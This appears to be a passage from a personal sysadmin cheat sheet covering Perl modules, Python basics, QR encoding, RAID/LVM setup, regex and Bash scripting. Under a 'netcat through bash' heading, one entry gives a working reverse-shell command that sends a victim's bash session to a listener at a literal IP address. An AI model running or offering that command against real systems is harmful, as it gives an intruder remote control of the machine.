    Pod::Simple::RTF - format Pod as RTF
    Pod::Simple::Search - find POD documents in directory trees
    Pod::Simple::SimpleTree - parse Pod into a simple parse tree
    Pod::Simple::Text - format Pod as plaintext
    Pod::Simple::TextContent - get the text content of Pod
    Pod::Simple::XHTML - format Pod as validating XHTML
    Pod::Simple::XMLOutStream - turn Pod into XML
    Pod::Text - Convert POD data to formatted ASCII text
    Pod::Text::Color - Convert POD data to formatted color ASCII text
    Pod::Text::Overstrike - =for stopwords overstrike
    Pod::Text::Termcap - Convert POD data to ASCII text with format escapes
    Pod::Usage - print a usage message from embedded pod documentation
    POSIX - Perl interface to IEEE Std 1003.1

    Safe - Compile and execute code in restricted compartments
    Scalar::Util - A selection of general-utility scalar subroutines
    SDBM_File - Tied access to sdbm files
    Search::Dict - look - search for key in dictionary file
    SelectSaver - save and restore selected file handle
    SelfLoader - load functions only on demand
    Socket - networking constants and support functions
    Storable - persistence for Perl data structures
    Symbol - manipulate Perl symbols and their names
    Sys::Hostname - Try every conceivable way to get hostname
    Sys::Syslog - Perl interface to the UNIX syslog(3) calls

    TAP::Base - Base class that provides common functionality to TAP::Parser and TAP::Harness
    TAP::Formatter::Base - Base class for harness output delegates
    TAP::Formatter::Color - Run Perl test scripts with color
    TAP::Formatter::Console - Harness output delegate for default console output
    TAP::Formatter::Console::ParallelSession - Harness output delegate for parallel console output
    TAP::Formatter::Console::Session - Harness output delegate for default console output
    TAP::Formatter::File - Harness output delegate for file output
    TAP::Formatter::File::Session - Harness output delegate for file output
    TAP::Formatter::Session - Abstract base class for harness output delegate
    TAP::Harness - Run test scripts with statistics
    TAP::Object - Base class that provides common functionality to all TAP::* modules
    TAP::Parser - Parse TAP|Test::Harness::TAP output
    TAP::Parser::Aggregator - Aggregate TAP::Parser results
    TAP::Parser::Grammar - A grammar for the Test Anything Protocol.
    TAP::Parser::Iterator - Base class for TAP source iterators
    TAP::Parser::Iterator::Array - Iterator for array-based TAP sources
    TAP::Parser::Iterator::Process - Iterator for process-based TAP sources
    TAP::Parser::Iterator::Stream - Iterator for filehandle-based TAP sources
    TAP::Parser::IteratorFactory - Figures out which SourceHandler objects to use for a given Source
    TAP::Parser::Multiplexer - Multiplex multiple TAP::Parsers
    TAP::Parser::Result - Base class for TAP::Parser output objects
    TAP::Parser::Result::Bailout - Bailout result token.
    TAP::Parser::Result::Comment - Comment result token.
    TAP::Parser::Result::Plan - Plan result token.
    TAP::Parser::Result::Pragma - TAP pragma token.
    TAP::Parser::Result::Test - Test result token.
    TAP::Parser::Result::Unknown - Unknown result token.
    TAP::Parser::Result::Version - TAP syntax version token.
    TAP::Parser::Result::YAML - YAML result token.
    TAP::Parser::ResultFactory - Factory for creating TAP::Parser output objects
    TAP::Parser::Scheduler - Schedule tests during parallel testing
    TAP::Parser::Scheduler::Job - A single testing job.
    TAP::Parser::Scheduler::Spinner - A no-op job.
    TAP::Parser::Source - a TAP source & meta data about it
    TAP::Parser::Utils - Internal TAP::Parser utilities
    TAP::Parser::YAMLish::Reader - Read YAMLish data from iterator
    TAP::Parser::YAMLish::Writer - Write YAMLish data
    Term::ANSIColor - Color screen output using ANSI escape sequences
    Term::Cap - Perl termcap interface
    Term::Complete - Perl word completion module
    Term::ReadLine - Perl interface to various readline packages. If no real package is found, substitutes stubs instead of basic functions.
    Term::UI - Term::ReadLine UI made easy
    Term::UI::History - history function
    Test - provides a simple framework for writing test scripts
    Test::Builder - Backend for building test libraries
    Test::Builder::Module - Base class for test modules
    Test::Builder::Tester - test testsuites that have been built with Test::Builder
    Test::Builder::Tester::Color - turn on colour in Test::Builder::Tester
    Test::Harness - Run Perl standard test scripts with statistics
    Test::More - yet another framework for writing test scripts
    Test::Simple - Basic utilities for writing tests.
    Text::Abbrev - abbrev - create an abbreviation table from a list
    Text::Balanced - Extract delimited text sequences from strings.
    Text::ParseWords - parse text into an array of tokens or array of arrays
    Text::Soundex - Implementation of the soundex algorithm.
    Text::Tabs - expand and unexpand tabs like unix expand(1) and unexpand(1)
    Text::Wrap - line wrapping to form simple paragraphs
    Thread - Manipulate threads in Perl (for old code only)
    Thread::Queue - Thread-safe queues
    Thread::Semaphore - Thread-safe semaphores
    Tie::Array - base class for tied arrays
    Tie::File - Access the lines of a disk file via a Perl array
    Tie::Handle - base class definitions for tied handles
    Tie::Hash - base class definitions for tied hashes
    Tie::Hash::NamedCapture - Named regexp capture buffers
    Tie::Memoize - add data to hash when needed
    Tie::RefHash - use references as hash keys
    Tie::Scalar - base class definitions for tied scalars
    Tie::StdHandle - base class definitions for tied handles
    Tie::SubstrHash - Fixed-table-size, fixed-key-length hashing
    Time::gmtime - by-name interface to Perl's built-in gmtime() function
    Time::HiRes - High resolution alarm, sleep, gettimeofday, interval timers
    Time::Local - efficiently compute time from local and GMT time
    Time::localtime - by-name interface to Perl's built-in localtime() function
    Time::Piece - Object Oriented time objects
    Time::Seconds - a simple API to convert seconds to other date values
    Time::tm - internal object used by Time::gmtime and Time::localtime

    Unicode::Collate - Unicode Collation Algorithm
    Unicode::Normalize - Unicode Normalization Forms
    Unicode::UCD - Unicode character database
    UNIVERSAL - base class for ALL classes (blessed references)
    User::grent - by-name interface to Perl's built-in getgr*() functions
    User::pwent - by-name interface to Perl's built-in getpw*() functions

    XSLoader - Dynamically load C libraries into Perl code

* PYTHON
** COMMAND : datetime



** 101
*** How to view module functions

    import module
    print dir(module) # Find functions of interest.

    # For each function of interest:
    help(module.interesting_function)
    print module.interesting_function.func_defaults

*** How to install a module
    Install get-pip.py (https://bootstrap.pypa.io/get-pip.py)

eric@skylab~: sudo -H python3 get-pip.py
Collecting pip
  Downloading pip-6.1.1-py2.py3-none-any.whl (1.1MB)
    100% |████████████████████████████████| 1.1MB 472kB/s
Collecting setuptools
  Downloading setuptools-15.0-py2.py3-none-any.whl (501kB)
    100% |████████████████████████████████| 503kB 772kB/s
Installing collected packages: pip, setuptools
Successfully installed pip-6.1.1 setuptools-15.0

*** How to update pip
    pip install -U pip


*** BOOLEAN

     Boolean Operators
------------------------
True and True is True
True and False is False
False and True is False
False and False is False

True or True is True
True or False is True
False or True is True
False or False is False

Not True is False
Not False is True

*** Class vs Type // Instance vs Object
    Class is a user-defined type
    Type is a built-in type

    Instance and Object are synonymous
    Objects are instances of types, 52 is an instance of the type int
    52 is an int object

** array : string
   string_1 = "Camelot"
   string_2 = "place"

   print "Let's not go to %s. 'Tis a silly %s." % (string_1, string_2)

** function
def clinic():
    print "You've just entered the clinic!"
    print "Do you take the door on the left or the right?"
    answer = raw_input("Type left or right and hit 'Enter'.").lower()
    if answer == "left" or answer == "l":
        print "This is the Verbal Abuse Room, you heap of parrot droppings!"
    elif answer == "right" or answer == "r":
        print "Of course this is the Argument Room, I've told you that already!"
    else:
        print "You didn't pick left or right! Try again."
        clinic()

clinic()

** if
    if answer == "left" or answer == "l":
        print "This is the Verbal Abuse Room, you heap of parrot droppings!"
    elif answer == "right" or answer == "r":
        print "Of course this is the Argument Room, I've told you that already!"
    else:
        print "You didn't pick left or right! Try again."

** len(var)
   # length

** print

** raw_input()
   name = raw_input("What is your name?")

** str(int)
   # Convert to string

** var.isalpha()

** var.lower()
   # Convert to lowercase
   # var.lower()

** var.upper()
   # Convert to uppercase
   # var.upper()

** variable = "string"
   # needs to be in quotations
   # or it will think string is a variable

** variable = digit
   # does not need to be in quotations

* PYTHON3
  !! Don't Name Your Script With The Name Of A Module !!

  !! You will get an error:                           !!
  !! AttributeError: 'module' object has no attribute !!
  !! 'b64decode'

** base64
   # It wants a string of 8-bit bytes
   # http://stackoverflow.com/questions/8908287/base64-encoding-in-python-3
   encoded = base64.b64encode(b'string to encode')
   encoded = b'string to encode'

* proc
  /proc/fb	video framebuffer

* QR
  # QR Code Data Max Capacity
  Numeric only: 7,089 characters
  Alphanumeric: 4,296 characters
  Binary (8 bits): 2,953 bytes

** qrencode
   # qrencode [OPTION]... [STRING]
   qrencode -s 10 -o aurora_QR.png www.danielides.de/com/aurora.html

Usage: qrencode [OPTION]... [STRING]
Encode input data in a QR Code and save as a PNG or EPS image.

  -h           display this message.
  --help       display the usage of long options.
  -o FILENAME  write image to FILENAME. If '-' is specified, the result
               will be output to standard output. If -S is given, structured
               symbols are written to FILENAME-01.png, FILENAME-02.png, ...
               (suffix is removed from FILENAME, if specified)
  -s NUMBER    specify module size in dots (pixels). (default=3)
  -l {LMQH}    specify error correction level from L (lowest) to H (highest).
               (default=L)
  -v NUMBER    specify the version of the symbol. (default=auto)
  -m NUMBER    specify the width of the margins. (default=4 (2 for Micro))
  -d NUMBER    specify the DPI of the generated PNG. (default=72)
  -t {PNG,EPS,SVG,ANSI,ANSI256,ASCII,ASCIIi,UTF8,ANSIUTF8}
               specify the type of the generated image. (default=PNG)
  -S           make structured symbols. Version must be specified.
  -k           assume that the input text contains kanji (shift-jis).
  -c           encode lower-case alphabet characters in 8-bit mode. (default)
  -i           ignore case distinctions and use only upper-case characters.
  -8           encode entire data in 8-bit mode. -k, -c and -i will be ignored.
  -M           encode in a Micro QR Code.
  --foreground=RRGGBB[AA]
  --background=RRGGBB[AA]
               specify foreground/background color in hexadecimal notation.
               6-digit (RGB) or 8-digit (RGBA) form are supported.
               Color output support available only in PNG and SVG.
  -V           display the version number and copyrights of the qrencode.
  [STRING]     input data. If it is not specified, data will be taken from
               standard input.

** qrqt
   # Linux client that can view and edit QR codes locally

* RAID
** RAID : dmraid
   # discover software RAID devices and activate RAID sets

** RAID : dmsetup
   # dmsetup manages logical devices that use the device-mapper driver. Devices are  created  by  loading  a table that specifies a target for each sector (512 bytes) in the logical device.
   # The first argument to dmsetup is a command. The  second  argument  is  the  logical device name or uuid.
   # Invoking the command as devmap_name is equivalent to dmsetup info -c --noheadings -j major -m minor.

** RAID : lvm

   lvm pvscan
   lvm vgscan

*** pvresize
    # Growing the physical volume is trivial
    pvresize /dev/md0

*** vgcfgbackup
    /etc/lvm/backup
    /etc/lvm/archives

*** vgcfgrestore
     lvm vgcfgrestore VolGroup

*** vgchange
    # Activate VG
    # main purpose is to activate and deactivate VolumeGroupName, or all volume groups if none is specified.
    vgchange --activate y VolGroup

*** vgextend
    # Extend VG to device
    vgextend VolGroup01 /dev/sde1 		# Volume group "VolGroup01" successfully extended

    use xfs_growfs afterwards

*** vgrename
    # Rename VG
    # stop VG first
    vgchange --activate n VolGroup
    vgrename VolGroup_old VolGroup_new

** RAID : Step 1 : mdadm
   Linux software RAID manager

   # Create RAID with partitions with 'fd' type ID


   mdadm --stop /dev/md0		# mdadm: stopped /dev/md0
   cat /proc/mdstat		# Personalities : [linear] [raid0] [raid1] [raid10] [raid6] [raid5] [raid4]
                                 # unused devices: <none>

   mdadm --misc --examine /dev/sda										# view device

   mdadm --create /dev/md0 --level=6 --raid-devices=5 /dev/sda /dev/sdb /dev/sdc /dev/sdd /dev/sde		# creating raid
   mdadm --create /dev/md0 --level=1 --raid-devices=2 /dev/sda1 missing
   sudo mdadm --assemble /dev/md/mdX --name=new_name --update=name /dev/sd[fg]1					# update md to new name
   mdadm --manage --remove /dev/md0 /dev/sdc1									# remote a disk from raid
   mdadm --manage --add /dev/md0 /dev/sdc1									# add disks to raid
   mdadm --grow --raid-devices=N+1 /dev/md0									# grow raid, by previous N disks
   mdadm --assemble --scan											# assemble and start raid
   mdadm --misc --detail --scan >> /etc/mdadm/mdadm.conf								# auto-assemble raid on boot

   in /etc/fstab:
   /dev/mapper/lvm--raid-raid6	/	ext4	errors=remount-ro	0	1				# auto mount LV on boot

   # echo action > /sys/block/mdX/md/sync_action
   "idle"   - Halt the current sync action.
   "frozen" - Freeze the current sync action.
   "resync" - Initiate/continue a resync.
   "recover"- Initiate/continue a recover process.
   "check"  - Initiate a check (i.e. a "scrub") of the array.
   "repair" - Initiate a repair of the array.
   "reshape"- Currently unsupported (-EINVAL).

** RAID : Step 2 : lvm pvcreate
   pvcreate /dev/md0

** RAID : Step 3 : lvm vgcreate
   vgcreate lvm-raid /dev/md0

** RAID : Step 4 : lvm lvcreate
   lvcreate -l 100%VG lvm-raid -n home

* RASBPI
** Video Modes
http://elinux.org/RPiconfig#Video

* REGEX
  id | grep uid | awk '{print $1}' | sed 's/.*\([(].*[)]\)/\1/;s/(//;s/)//'	# Current user
  md5sum.exe * 2>/dev/null | sed -E 's/^([a-z0-9]*)[[:space:]]\*(.*)\.(.*)/mv -v "\2.\3" \1.\3/' | /bin/sh	# rename file to md5 hash
  for i in "saying words" ; do cd "${i}"; printf "\e[31m$(pwd)\e[0m\n"; md5sum.exe * 2>/dev/null | sed -E 's/^([a-z0-9]*)[[:space:]]\*(.*)\.(.*)/mv -v "\2.\3" \1.\3/' | /bin/sh; cd -; done	# rename file to md5 hash

  IP Address........[0-9]{1,3}[.][0-9]{1,3}[.][0-9]{1,3}[.][0-9]{1,3}
                    [0-9]\{1,3\}[.][0-9]\{1,3\}[.][0-9]\{1,3\}[.][0-9]\{1,3\}

  Class A,B,C.......()[.]()[.]()[.]()

  Email Address.....[0-9a-zA-Z]*[@][a-zA-Z]{2,3}
                    [0-9a-zA-Z]*[ ][aA][tT][ ][a-zA-Z]{2,3}
  MAC Address.......([0-9A-F]{2}[:-]){5}([0-9A-F]{2})

** Lookahead
   # matches letter and number that follows with a space (without including the space)
   md5sum.exe '/path/to/file' | grep -Pi --color '^[a-z0-9]*(?=[ ])'

   (?=(regex))
   (?!(regex))

** Lookbehind
   (?<=(regex))
   (?<!(regex))

** Character classes

The character class is the most basic regular expression concept after a literal match. It makes one small sequence of characters match a larger set of characters. For example, [A-Z] could stand for the alphabet, and \d could mean any digit. Character classes apply to both POSIX levels.

When specifying a range of characters, such as [a-Z] computer's locale settings determine the contents by the numeric ordering of the character encoding. They could store digits in that sequence, or the ordering could be abc...zABC...Z, or aAbBcC...zZ. So the POSIX standard defines a character class, which will be known by the regular expression processor installed. Those definitions are in the following table:

| POSIX      | Non-standard | Perl/Tcl | Vim   | ASCII                              | Description                                |
|------------+--------------+----------+-------+------------------------------------+--------------------------------------------|
| [:alnum:]  |              |          |       | [A-Za-z0-9]                        | Alphanumeric characters                    |
|            | [:word:]     | \w       | \w    | [A-Za-z0-9_]                       | Alphanumeric characters plus "_"           |
|            |              | \W       | \W    | [^A-Za-z0-9_]                      | Non-word characters                        |
| [:alpha:]  |              |          | \a    | [A-Za-z]                           | Alphabetic characters                      |
| [:blank:]  |              |          | \s    | [ \t]                              | Space and tab                              |
|            |              | \b       | \< \> | (?<=\W)(?=\w)|(?<=\w)(?=\W)        | Word boundaries                            |
| [:cntrl:]  |              |          |       | [\x00-\x1F\x7F]                    | Control characters                         |
| [:digit:]  |              | \d       | \d    | [0-9]                              | Digits                                     |
|            |              | \D       | \D    | [^0-9]                             | Non-digits                                 |
| [:graph:]  |              |          |       | [\x21-\x7E]                        | Visible characters                         |
| [:lower:]  |              |          | \l    | [a-z]                              | Lowercase letters                          |
| [:print:]  |              |          | \p    | [\x20-\x7E]                        | Visible characters and the space character |
| [:punct:]  |              |          |       | [][!"#$%&'()*+,./:;<=>?@\^_`{|}~-] | Punctuation characters                     |
| [:space:]  |              | \s       | \_s   | [ \t\r\n\v\f]                      | Whitespace characters                      |
|            |              | \S       |       | [^ \t\r\n\v\f]                     | Non-whitespace characters                  |
| [:upper:]  |              |          | \u    | [A-Z]                              | Uppercase letters                          |
| [:xdigit:] |              |          | \x    | [A-Fa-f0-9]                        | Hexadecimal digits                         |

* Shell Scripting
** array
   ArrayName=("element 1" "element 2" "element 3")

   array=(red green blue yellow magenta)
   len=${#array[*]}
   echo "The array has $len members. They are:"
   i=0
   while [ $i -lt $len ]; do
   echo "$i: ${array[$i]}"
   let i++
   done

** array unset
   unset Array[0]	Delete item in array
   unset Array 		Deleted an entire array

** break
   The break statement is used to terminate the execution of the entire loop, after completing the execution of all of the lines of code up to the break statement. It then steps down to the code following the end of the loop.

** case
# Take parameters and give them something to do
# Multiple arguments/parameters/options
while [[ "$1" != "" ]]; do # Read parameters

    case $1 in
	--reverse)reverse=1;;
	-b)b="-rtlDhu --delete --delete-excluded ";;
	-go)noconfirm=1;;
	-i)i="-i -progress --stats ";;
    esac

    shift
done


#!/bin/bash
OPT=$1   # option
FILE=$2  # filename

# test -e and -E command line args matching
case $OPT in
-e|-E)
  	echo "Editing $2 file..."
        # make sure filename is passed else an error displayed
  	[ -z $FILE ] && { echo "File name missing"; exit 1; } || vi $FILE
  	;;
  -c|-C)
  	echo "Displaying $2 file..."
  	[ -z $FILE ] && { echo "File name missing"; exit 1; } || cat $FILE
  	;;
  -d|-D)
  	echo "Today is $(date)"
  	;;
   *)
    echo "Bad argument!"
    echo "Usage: $0 -ecd filename"
    echo "	-e file : Edit file."
    echo "	-c file : Display file."
    echo "	-d      : Display current date and time."
    ;;
esac

** cat
function usage() {
    cat <<EOF
  usage: $0 options

  This script will install opencenter packages.

  OPTIONS:
  -h  Show this message
  -v  Verbose output
  EOF
}

** cd
   cd $(dirname $0)	# CD to DIR of running script

** chvt
   # Change foreground virtual terminal

   chvt N

   The command chvt N makes /dev/ttyN the foreground terminal. (The corresponding screen is created if it did not exist yet. To get rid of unused VTs, use deallocvt(1).) The key combination (Ctrl-)LeftAlt-FN (with N in the range 1-12) usually has a similar effect.

** continue
   The continue statement is similar to the break command, except that it causes the current iteration of the loop to exit, rather than the entire loop.

   This statement is useful when an error has occurred but you want to try to execute the next iteration of the loop.

** date
   date +%F-%H.%M.%S%p
   2013-02-18-03.18.31AM

** echo
   -n	do not output the trailing newline

** eval
   eval echo \${$n} runs the parameters passed to eval. After expansion, the parameters are echo and ${1}. So eval echo \${$n} runs the command echo ${1}.

** for

   # three-expressions
   (exp1) initializer
   (exp2) loop-test or condition
   (exp3) counting expression

   #!/bin/bash
   for (( c=1; c<=5; c++ ))
   do
       echo "Welcome $c times"
   done

   for i in list; do
   command
   done

   # number range
   for i in {1..6}
   for i in {0..10..2}		# {START..END..INCREMENT}

   # Example xargs ping
   for i in {1..255}; do echo ${i} | xargs -P0 -i /bin/ping -c 1 10.25.53.{} >/dev/null && printf "[ \e[0;32m10.25.53.${i}\e[0m ] " || printf "[ \e[0;31m10.25.53.${i}\e[0m ]"; done

   # Example (scanning drive):
	 for _drive in `ls /cygdrive`; do
	 _home=/cygdrive/$_drive/home/
	 _backup=/cygdrive/$_drive/backups
	 # set backup location
	     if [ -d $_backup ]; then
	         if [ -d $_home ]; then

	             rsync -abyhuiP --modify-window=2 --delete-delay -c --stats --backup-dir=$_backup/$(date +%F) ../eric ../family ../cjguidance $_home
	         fi
	     else
	         echo $_drive\:\\ is not the backup drive.
	     fi
	 done


	 for _d in `ls /cygdrive`; do
  	    if [ -d /cygdrive/$_d/$_w ]; then
	       destination=/cygdrive/$_d/$_w
	    fi
	 done

     # Example (array):
     for (( i=0; i<${#ifcfgA[@]}; i++ )); do

** getopts
while getopts "hvV" option
do
    case $option in
	h)
	    usage
	    exit 1
	    ;;
	v) VERBOSE=1 ;;
	V)
	    display_version
	    exit 1
	    ;;
	?)
	    usage
	    exit 1
	    ;;
    esac
done

** if
# IF menu
function main {
	echo -e "RSA NetWitness Tech Support Script\nVersion: $scriptver\n"
	if [ $# -eq 1 ]; then
		if [[ $1 != "-p" && $1 != "-d" && $1 != "-i" && $1 != "-detect" && $1 != "-u" ]]; then
			usage
		fi
	elif [[ $# -ge 1 && $# -le 6 ]] ; then
		echo -n
	else
		usage
	fi

# another one
for arg in "$@"; do

	case $arg in
	    --reverse)
		reverse=1
		;;
	    -b)
		b="-rtlDhu --delete --delete-excluded --no-p --no-g "
		;;
	    -go)
		noconfirm=1
		;;
	    -i)
		i="-i --progress --stats "
		;;
	    *|-h)
		usage
		;;
	esac

done

if [[ -z "$1" ]]; then usage; fi


# Verifying arguments
if [[ $arg == "-p" || $arg == "-d" || $arg == "-i" || $arg == "-e" || $arg == "-ea" || $arg == "-u" ]]; then


| Primary expressions         | Primary Meaning                                                                                                                                                                                                                                                     |
|-----------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [ -a FILE ]                 | True if FILE exists.                                                                                                                                                                                                                                                |
| [ -B File ]                 | True if FILE exists and is a block-special file.                                                                                                                                                                                                                    |
| [ -c FILE ]                 | True if FILE exists and is a character-special file.                                                                                                                                                                                                                |
| [ -d FILE ]                 | True if FILE exists and is a directory.                                                                                                                                                                                                                             |
| [ -e FILE ]                 | True if FILE exists.                                                                                                                                                                                                                                                |
| [ -f FILE ]                 | True if FILE exists and is a regular file.                                                                                                                                                                                                                          |
| [ -g FILE ]                 | True if FILE exists and its SGID bit is set.                                                                                                                                                                                                                        |
| [ -h FILE ]                 | True if FILE exists and is a symbolic link.                                                                                                                                                                                                                         |
| [ -k FILE ]                 | True if FILE exists and its sticky bit is set.                                                                                                                                                                                                                      |
| [ -p FILE ]                 | True if FILE exists and is a named pipe (FIFO).                                                                                                                                                                                                                     |
| [ -r FILE ]                 | True if FILE exists and is readable.                                                                                                                                                                                                                                |
| [ -s FILE ]                 | True if FILE exists and has a size greater than zero.                                                                                                                                                                                                               |
| [ -t FD ]                   | True if file descriptor FD is open and refers to a terminal.                                                                                                                                                                                                        |
| [ -u FILE ]                 | True if FILE exists and its SUID (set user ID) bit is set.                                                                                                                                                                                                          |
| [ -w FILE ]                 | True if FILE exists and is writable.                                                                                                                                                                                                                                |
| [ -x FILE ]                 | True if FILE exists and is executable.                                                                                                                                                                                                                              |
| [ -O FILE ]                 | True if FILE exists and is owned by the effective user ID.                                                                                                                                                                                                          |
| [ -G FILE ]                 | True if FILE exists and is owned by the effective group ID.                                                                                                                                                                                                         |
| [ -L FILE ]                 | True if FILE exists and is a symbolic link.                                                                                                                                                                                                                         |
| [ -N FILE ]                 | True if FILE exists and has been modified since it was last read.                                                                                                                                                                                                   |
| [ -S FILE ]                 | True if FILE exists and is a socket.                                                                                                                                                                                                                                |
| [ FILE1 -nt FILE2 ]         | True if FILE1 has been changed more recently than FILE2, or if FILE1 exists and FILE2 does not.                                                                                                                                                                     |
| [ FILE1 -ot FILE2 ]         | True if FILE1 is older than FILE2, or is FILE2 exists and FILE1 does not.                                                                                                                                                                                           |
| [ FILE1 -ef FILE2 ]         | True if FILE1 and FILE2 refer to the same device and inode numbers.                                                                                                                                                                                                 |
| [ -o OPTIONNAME ]           | True if shell option "OPTIONNAME" is enabled.                                                                                                                                                                                                                       |
| [ -z STRING ]               | True of the length if "STRING" is zero.                                                                                                                                                                                                                             |
| [ -n STRING ] or [ STRING ] | True if the length of "STRING" is non-zero.                                                                                                                                                                                                                         |
| [ STRING1 == STRING2 ]      | True if the strings are equal. "=" may be used instead of "==" for strict POSIX compliance.                                                                                                                                                                         |
| [ STRING1 != STRING2 ]      | True if the strings are not equal.                                                                                                                                                                                                                                  |
| [ STRING1 < STRING2 ]       | True if "STRING1" sorts before "STRING2" lexicographically in the current locale.                                                                                                                                                                                   |
| [ STRING1 > STRING2 ]       | True if "STRING1" sorts after "STRING2" lexicographically in the current locale.                                                                                                                                                                                    |
| [ ARG1 OP ARG2 ]            | "OP" is one of -eq, -ne, -lt, -le, -gt or -ge. These arithmetic binary operators return true if "ARG1" is equal to, not equal to, less than, less than or equal to, greater than, or greater than or equal to "ARG2", respectively. "ARG1" and "ARG2" are integers. |
** let
   let C1=$A+$B		Performs arithmetic operations

** logger
   if [ ! -d "$backups/${backupsA[$i]}" ]; then mkdir "$backups/${backupsA[$i]}"  2>$stderr && \	# make folders
   (logger -i "$0 - SUCCESS - !!") || (logger -i "$0 - ERROR - !!"; logger -i <$stderr)	        # logger

** mount
   # mount.cifs version 4.x+
   use -o sec=ntlm

   nosuid			# don't allow user to run as uid that mounted it (root)
   noatime			# no access time, better performance

** netcat through bash
   Netcat without Netcat with Mad Props to Rami Method 1:

   Hacker: nc -l -n -vv -p 8080 Victim: /bin/bash -i > /dev/tcp/173.214.173.151/8080 0<&1 2>&1

** printf
   printf '%s\n' "$var"		# Will output the content of $var followed by a newline character regardless of what character it may contain.
   printf %s "$var"		# Will output it without the trailing newline character.

   printf '<string> %16d <string>\n' "$var"		# Will print <string> followed by 16 digits (from $var output) followed by <string>
   printf ' '$(md5sum Packages.gz | cut --delimiter=' ' --fields=1)' %16d Packages.gz\n' $(wc --bytes Packages | cut --delimiter=' ' --fields=1)

** read
   read -s secretpassword	# characters won't be shown

# read line in file and process each segment as a parameter
while read file key log lat
do
  echo $cmd $key $log $lat $file
done < "$input"

while read line; do echo $cmd $line; done < "$input"

** select
echo -e "\vRun rsync?\v"
select run in "Yes" "No"; do
case $run in
    Yes)noconfirm=1
	echo "########  ##     ## ##    ## ##    ## #### ##    ##  ######   "
	echo "##     ## ##     ## ###   ## ###   ##  ##  ###   ## ##    ##  "
	echo "##     ## ##     ## ####  ## ####  ##  ##  ####  ## ##        "
	echo "########  ##     ## ## ## ## ## ## ##  ##  ## ## ## ##   #### "
	echo "##   ##   ##     ## ##  #### ##  ####  ##  ##  #### ##    ##  "
	echo "##    ##  ##     ## ##   ### ##   ###  ##  ##   ### ##    ##  "
	echo "##     ##  #######  ##    ## ##    ## #### ##    ##  ######   "
	rsynccommand
	exit 0;;
    No)exit 0;;
esac

done



  echo "Do you wish to install this program?"
  select yn in "Yes" "No"; do
      case $yn in
	  Yes ) make install; break;;
	  No ) exit;;
      esac
  done

  With select you don't need to sanitize the input... it prompts you with your choices, and you type a number corresponding to the choice you want. Select also loops automatically... there's no need for a 'while true' loop to retry if they give invalid input.

# Another cooler example

  select option in "Backup" "Restore"; do

case $option in
    Backup)
	echo "Creating archive..."
	tar vzcf $backups/settings-$(date +%F-%H.%M.%S%p).tar.gz /data/data/com.android.providers.settings/databases/settings.db && (
	    echo "Done!" ) || ( echo "Error creating archive!" )
	exit

	;;

    Restore)
	echo $(dirname $0)
	echo "Select an archive"
#	array=($(ls $(dirname $0|grep -Eo "^backups")|grep -E "^settings"))	# internal error: print_columns called with n=0 <= 0
	array=($(ls $backups|grep -E "^settings"))
	select archive in ${array[*]}; do

	break
	done
	if [
	tar vzxf $backups/$archive -C / && (
	    echo "Done!" ) || ( echo "Error restoring archive!" )
	exit

	;;
esac
done

** setterm
   Turn off screen blanking
   setterm -blank

** shift
  shift - shift positional parameters

  while test $# -gt 0; do

  $ set a b c d e
  $ shift 2
  $ echo $*
  c d e

# Argument order = -t test -r server -p password -v
TEST=$2
SERVER=$4
PASSWD=$6
if [[ $# -gt 6 ]]
then
    VERBOSE=1
else
     VERBOSE=2
fi

Alright, this works, but if you want to run the script with the arguments in a different way? Or if you forget and put it in the right order? It'll not work, so, this is an ugly solution.

Ok, but how can you deal with arguments not worrying about the order and if needs an argument or not? Getopts is the answer ;)

Let's see how we can write the script using getopts and them we explain how it works.

The new script (it's bigger, I'll explain why):
#!/bin/bash
# Argument = -t test -r server -p password -v

usage()
{
cat << EOF
usage: $0 options

This script run the test1 or test2 over a machine.

OPTIONS:
   -h      Show this message
   -t      Test type, can be 'test1' or 'test2'
   -r      Server address
   -p      Server root password
   -v      Verbose
EOF
}

TEST=
SERVER=
PASSWD=
VERBOSE=
while getopts "ht:r:p:v" OPTION
do
     case $OPTION in
         h)
             usage
             exit 1
             ;;
         t)
             TEST=$OPTARG
             ;;
         r)
             SERVER=$OPTARG
             ;;
         p)
             PASSWD=$OPTARG
             ;;
         v)
             VERBOSE=1
             ;;
         ?)
             usage
             exit
             ;;
     esac
done

if [[ -z $TEST ]] || [[ -z $SERVER ]] || [[ -z $PASSWD ]]
then
     usage
     exit 1
fi

** Hidden Password with asterisks
#!/bin/bash
unset password
prompt="Enter Password:"
while IFS= read -p "$prompt" -r -s -n 1 char
do
    if [[ $char == $'\0' ]]
    then
        break
    fi
    prompt='*'
    password+="$char"
done
echo
echo "Done. Password=$password"

# IFS
$IFS

    internal field separator

    This variable determines how Bash recognizes fields, or word boundaries, when it interprets character strings.

    $IFS defaults to whitespace (space, tab, and newline), but may be changed, for example, to parse a comma-separated data file. Note that $* uses the first character held in $IFS. See Example 5-1.
** Math : $(( ))
   FILES[$file_count]=$filename
   file_count=$(($file_count+1))
** Scripting : Getting user input
The simplest and most widely available method to get user input at a shell prompt is the 'read' command. The best way to illustrate its use is a simple demonstration:

while true; do
    read -p "Do you wish to install this program?" yn
    case $yn in
        [Yy]* ) make install; break;;
        [Nn]* ) exit;;
        * ) echo "Please answer yes or no.";;
    esac
done

Another method, pointed out by Steven Huwig, is bash's 'select' command. Here is the same example using select:

echo "Do you wish to install this program?"
select yn in "Yes" "No"; do
    case $yn in
        Yes ) make install; break;;
        No ) exit;;
    esac
done

With select you don't need to sanitize the input... it prompts you with your choices, and you type a number corresponding to the choice you want. Select also loops automatically... there's no need for a 'while true' loop to retry if they give invalid input.
** Special Shell Variables Used in Scripts
   Variable		Meaning
   $#			The number of arguments.
   $0			The command name.
   $1, $2, ... , $9	The individual arguments of the command.
   $*			The entire list of arguments, treated as a single word.
   $@			The entire list of arguments, treated as a series of words.
   $?			The exit status of the previous command. The value 0 denotes successful completion.
   $$			The process id of the current process.

** Exit Codes : Checking
   if [ "$?" -ne "0" ]; then
     echo "Setting password failed"
     return 2
   fi

** Exit Codes : Executing commands depending on exit code
   command && ( command-to-execute-on-success ) || ( command-to-execute-on-failure )

*** Example:
    #!/bin/sh
    cp /foo /bar && ( echo Success ; echo Success part II ) || ( echo Failed ; echo Failed part II )

** Exit Codes : Executing commands sequentially on success (exit 0)
   &&

*** Example:
    #!/bin/sh
    cd /usr/src/linux && \
    make dep && make bzImage && make modules && make modules_install && \
    cp arch/i386/boot/bzImage /boot/my-new-kernel && cp System.map /boot && \
    echo "Your new kernel awaits, m'lord."

** Exit Codes : General Info
   | Variable        | Meaning                                                                             |
